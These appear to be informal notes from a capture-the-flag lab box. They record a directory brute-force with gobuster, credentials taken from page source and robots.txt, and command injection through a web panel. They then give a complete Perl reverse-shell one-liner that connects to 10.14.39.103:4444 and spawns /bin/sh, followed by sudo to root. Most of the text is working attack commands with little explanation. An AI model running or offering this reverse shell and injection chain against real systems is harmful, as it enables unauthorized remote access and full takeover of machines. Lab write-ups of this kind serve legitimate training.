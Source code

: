 
gobuster dir -u http://workers.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,php3,html,txt       => brute force for dir

I see the place for command injection

username => R1ckRul3s   / i got from source code
password  => Wubbalubbadubdub / i got feom robots.txt

grep -R .   => i inject like this


=> I use this payload to get exploit

perl -e 'use Socket;$i="10.14.39.103";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


![[Pasted image 20230115195040.png]]

I got root hit form here 

sudo bash    or sudo su
cd /root  => i got root from here